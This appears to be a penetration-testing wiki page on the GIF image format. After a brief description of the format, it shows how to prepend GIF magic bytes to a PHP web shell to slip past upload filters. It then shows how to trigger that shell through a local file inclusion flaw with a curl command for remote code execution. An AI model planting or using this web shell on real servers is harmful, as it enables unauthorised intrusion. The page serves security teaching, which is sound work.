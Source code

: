 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# GIF

The GIF file type is a widely used image format that stands for Graphics Interchange Format. It was originally developed by CompuServe and has remained popular due to its portability, simplicity, and broad support across operating systems, browsers, and applications. A GIF file uses lossless compression based on the Lempel-Ziv-Welch (LZW) algorithm, which reduces file size without sacrificing image quality, though the format is limited to a color palette of 256 indexed colors. This makes GIFs efficient for graphics such as logos, icons, and simple illustrations, but less suitable for high-resolution images or photographs that require a wider color range. From a security perspective, GIFs are generally safe, but malformed or specially crafted files have occasionally been used to trigger vulnerabilities in poorly implemented image parsers.

## Magic Bytes

If a webserver allows the uploading of `.gif` files (bypassing extension filters), a malicious one containing PHP code can be created, by including GIF's [magic bytes](./#server-side-filters) at the beginning of the file content (`GIF8`) (bypassing content type filters).

```bash
# Create a malicious GIF file
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

# Check the file's MIME type
$ file --mime-type shell.gif
shell.gif: image/gif
```

This file on its own is harmless and would not affect normal web application. However, if we combine it with a LFI flaw, then we may be able to achieve RCE after finding its uploads directory.

```bash
# Remote command execution
curl http://<ip:port>/index.php?language=./profile_images/shell.gif&cmd=id
```
